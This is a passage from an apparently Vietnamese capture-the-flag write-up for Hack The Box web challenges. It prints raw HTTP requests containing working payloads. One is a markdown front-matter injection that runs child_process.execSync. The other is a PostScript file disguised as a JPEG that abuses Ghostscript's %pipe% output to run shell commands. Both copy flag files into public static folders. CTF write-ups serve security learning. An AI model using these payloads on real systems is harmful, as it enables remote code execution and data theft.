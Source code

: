 flag nằm ở root nên chỉ cần cat và gửi ra ngoài ở đây mình cp ra static luôn

![image](https://hackmd.io/_uploads/H1yHdBn90.png)


```
POST /api/invoice/add HTTP/1.1
Host: 94.237.49.212:37990
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:37990/
Content-Type: application/json
Content-Length: 116
Origin: http://94.237.49.212:37990
Connection: close
Priority: u=0

{"markdown_content":"---js\n((require(\"child_process\")).execSync(\"cp /flag.txt static/invoices/flag\"))\n---RCE"}
```

flag: `HTB{int3rG4l4c7iC_r1d3_0n_bl1nk3r_flu1d5}`



## EasterBunny



## petpet rcbee


```
POST /api/upload HTTP/1.1
Host: 94.237.59.63:54125
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------31309964863637461648537953000
Content-Length: 487
Origin: http://94.237.59.63:54125
Connection: close
Referer: http://94.237.59.63:54125/
Priority: u=0

-----------------------------31309964863637461648537953000
Content-Disposition: form-data; name="file"; filename="ccc.jpg"
Content-Type: image/jpeg

%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat /app/flag > /app/application/static/css/aaa) currentdevice putdeviceprops

-----------------------------31309964863637461648537953000--

```